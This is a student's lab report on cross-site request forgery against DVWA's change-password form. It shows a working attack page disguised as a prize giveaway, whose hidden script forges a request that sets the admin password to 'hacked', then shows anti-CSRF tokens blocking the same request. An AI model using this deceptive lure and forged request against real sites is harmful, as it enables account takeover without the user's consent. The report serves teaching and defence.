










# Assignment 4 — CSRF Vulnerability and Prevention using Tokens

**Name:** Dechen Wangdra Sherpa
**Student No:** 02230281
**Module:** Web Application Security (WEB404)

---

## 1. Aim

To create a CSRF-vulnerable form and then implement CSRF tokens to prevent the attack.

## 2. Introduction

Cross-Site Request Forgery (CSRF) tricks a logged-in user's browser into sending a request they did not intend. Because the browser automatically attaches the user's session cookie, the server treats the forged request as genuine. The analogy: you are logged into your bank in one tab, and a malicious page in another tab secretly submits a transfer request using your active session — the bank cannot tell it was not really you.

This assignment uses **DVWA's CSRF module**, a "Change your admin password" form. The attack was performed at **Low** security, and the fix (anti-CSRF tokens) demonstrated at **High** security, on **Kali Linux** with DVWA running in Docker.

## 3. The Vulnerable Form

At **Low** security, the CSRF page lets the admin change their password. Submitting a normal change (`pass123`) returns "Password Changed."



Inspecting the URL after submission shows why the form is vulnerable: the new password is sent as plain parameters (`password_new`, `password_conf`, `Change`) with **no secret token**. This means the request is completely predictable — anyone can construct the same request.



## 4. Creating the Malicious Page

A malicious HTML page (`csrf_attack.html`) was created to disguise the attack as a prize giveaway. When the victim clicks the button, the page sends a request to DVWA's change-password URL, which changes the password to `hacked`. A fake "Loading your prize..." message is shown so the victim suspects nothing.



```html
<button onclick="claim()">Claim My Prize</button>
<script>
  function claim() {
    var img = new Image();
    img.src = "http://localhost/vulnerabilities/csrf/?password_new=hacked&password_conf=hacked&Change=Change";
    document.getElementById('msg').innerText = "Loading your prize, please wait...";
  }
</script>
```

## 5. Performing the Attack

### 5.1 The lure

The victim opens the page and sees a harmless-looking prize offer with a "Claim My Prize" button.



On clicking the button, only a "Loading your prize, please wait..." message appears — the malicious request is sent in the background.



### 5.2 The payload

The attack sends the following request using the victim's active DVWA session, setting the password to `hacked`:

```
http://localhost/vulnerabilities/csrf/?password_new=hacked&password_conf=hacked&Change=Change
```



### 5.3 Proof the attack worked

After the attack, logging in with the **old** password fails — confirming the password was changed without the admin's consent.



## 6. Prevention — CSRF Tokens

The DVWA security level was set to **High**, which loads a protected version of the form.



The **View Source** of the High-level code shows the defence: a random **anti-CSRF token** (`user_token`) is generated for each page with `generateSessionToken()`, and every submission is validated with `checkToken()` before the password is changed.



Because the token is random and tied to the user's session, an attacker cannot know or guess it, so they cannot forge a valid request.

## 7. Attack Blocked

With the token in place, the same forged request was attempted again. It was rejected with the message **"CSRF token is incorrect"**, because the malicious request carried no valid `user_token`.



## 8. Results

| Step | Security | Outcome |
|------|----------|---------|
| Normal form | Low | Password changes; request has no token (vulnerable) |
| CSRF attack | Low | Forged request changes the password to `hacked` |
| Proof | Low | Old password fails — attack succeeded |
| Token source | High | Form generates and checks a `user_token` |
| Repeat attack | High | Rejected — "CSRF token is incorrect" |

## 9. Mitigation (Safeguards)

1. **Anti-CSRF tokens** — include a random, per-session token in every state-changing form and validate it on the server. This is the primary fix (as shown at High security).
2. **Use POST, not GET**, for actions that change data, so parameters are not exposed in the URL.
3. **Re-authentication** for sensitive actions such as password changes (e.g. ask for the current password).
4. **Validate the request origin** using the Referer/Origin header where appropriate.

## 10. Conclusion

A CSRF-vulnerable change-password form was exploited using a crafted malicious page that forged a password-change request through the victim's active session, changing the password to `hacked`. The vulnerability was then fixed by enabling anti-CSRF tokens at High security, where the same attack was rejected because it lacked a valid token. The assignment demonstrated both how CSRF works and that per-session tokens are the correct defence.
